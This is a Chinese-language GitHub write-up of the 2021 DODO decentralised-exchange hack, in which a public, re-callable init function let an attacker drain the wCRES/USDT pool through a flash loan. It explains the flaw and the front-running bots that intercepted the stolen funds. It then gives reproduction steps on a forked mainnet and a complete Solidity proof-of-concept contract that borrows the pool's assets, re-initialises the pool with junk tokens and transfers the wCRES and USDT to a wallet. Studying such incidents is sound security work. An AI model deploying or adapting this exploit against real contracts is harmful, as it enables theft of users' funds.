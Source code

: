 # 0x00 概述

2021年3月,去中心化交易平台 DODO被黑客攻击，仅仅 wCRES/USDT V2 一个交易对就被转走价值近 98 万美元的 wCRES 和近 114 万美元的 USDT.

漏洞原理其实比较简单，一句话描述就是`Init函数为Public且可被多次调用`.

但精彩的地方在于,攻击者并没有成功拿到超200万美金的赃款,而被Front Running Bot截了胡.

# 0x01 事件分析

* 攻击合约
```
0x910FD17B9Bfc42A6eEA822912f036EF5a080Be8A
```

* 攻击交易
```
0x395675b56370a9f5fe8b32badfa80043f5291443bd6c8273900476880fb5221e
```
![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/attack_tx.png)

* 问题代码如下

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/vul_code.png)

> 攻击者首先生成两种垃圾Token
> 调用 `wCRES/USDT` 交易对合约的flashLoan函数 借出上百万美金的wCRES 和USDT
> 通过init 函数把两个Token 地址改为自己刚刚生成的两个垃圾Token
> 并把垃圾Token 还给交易对合约, 躲过require的检查

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/require.png)

> 讽刺的是该合约声明了`notInitialized`的modifier,但是确并没有使用...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/modifier.png)

> 好玩的地方来了, 也许是攻击合约中的`Transfer Back`函数命名过于普通?并且同样为`Public`权限, 攻击者两次想把赃款从合约中提取出来的行为都被Bot监控到并且抢先提款,攻击者提了个寂寞...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Front%20Running.png)


> 只能说Dark Forest名不虚传.

# 0x02 复现方法

* 攻击事件发生在高度为`12000165`的块上, 所以我们可以选稍早的块去Fork以太坊的主网

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@12000000
```

* 通过ERC20Factory 生成两个垃圾Token 

> 由于ganache拿不到正确的返回值，也查不到Event 
> 所以需要修改一下ERC20Factory合约
> 这样才能查到新生成的Token地址是什么...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/erc20_newToken.png)

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/ERC20_factory.png)

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Add_Token_On_Metamask.png)

* 为了方便我已经手动把两个垃圾Token 打给了`wCRES/USDT` 交易对合约地址

* 攻击合约如下

```js
/**
 *Submitted for verification at Etherscan.io on 2021-01-22
*/

/*

    Copyright 2020 DODO ZOO.
    SPDX-License-Identifier: Apache-2.0

*/

pragma solidity 0.6.9;
pragma experimental ABIEncoderV2;

interface DVM{
    
    function flashLoan(
        uint256 baseAmount,
        uint256 quoteAmount,
        address assetTo,
        bytes calldata data
    ) external;
    
    function init(
        address maintainer,
        address baseTokenAddress,
        address quoteTokenAddress,
        uint256 lpFeeRate,
        address mtFeeRateModel,
        uint256 i,
        uint256 k,
        bool isOpenTWAP
    ) external;        
    
}


interface Token {
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
}


interface USDT{
    //USDT 并没有完全遵循 ERC20 标准 所以其接口需单独定义
    function transfer(address to, uint value) external;
    function balanceOf(address account) external view returns (uint);
}


contract poc{
    
    
    uint256 wCRES_amount =  130000000000000000000000;
    
    uint256 usdt_amount =  1100000000000;
    
    address wCRES_token = 0xa0afAA285Ce85974c3C881256cB7F225e3A1178a;
    
    address usdt_token = 0xdAC17F958D2ee523a2206206994597C13D831ec7;
    
    address maintainer = 0x95C4F5b83aA70810D4f142d58e5F7242Bd891CB0;
    

    // 这里是刚生产的Token1地址
    address token1 = 0xAB48b42e6a98e671ff58338D5dD2fE44409b82D6;
    // 这里是刚生产的Token2地址
    address token2 = 0x1469A47A1700Cdf4cF030c0Fc7F2f45F24008228;
    
    uint256 lpFeeRate = 3000000000000000;
    
    address mtFeeRateModel = 0x5e84190a270333aCe5B9202a3F4ceBf11b81bB01;
    
    uint256 i = 1;
    
    uint256 k = 1000000000000000000;
    
    bool isOpenTWAP = false;
    

    // 这里填你的测试地址
    address  wallet = 0x;
    
    address dvm_wCRES_USDT =  0x051EBD717311350f1684f89335bed4ABd083a2b6;
    
    function attack() public {
        
        address me = address(this);
        DVM DVM_wCRES_USDT = DVM(dvm_wCRES_USDT);
        DVM_wCRES_USDT.flashLoan(wCRES_amount,usdt_amount,me,"0x");
        
    }

    
    function DVMFlashLoanCall(address a, uint256 b, uint256 c, bytes memory d) public{
        
        DVM DVM_wCRES_USDT = DVM(dvm_wCRES_USDT);
        DVM_wCRES_USDT.init(maintainer,token1,token2,lpFeeRate,mtFeeRateModel,i,k,isOpenTWAP);
        
        Token(wCRES_token).transfer(wallet, Token(wCRES_token).balanceOf(address(this)));
        USDT(usdt_token).transfer(wallet, Token(usdt_token).balanceOf(address(this)));
        
    }

}
```

* 攻击

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/attack.png)

* 成功


![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Success.png)
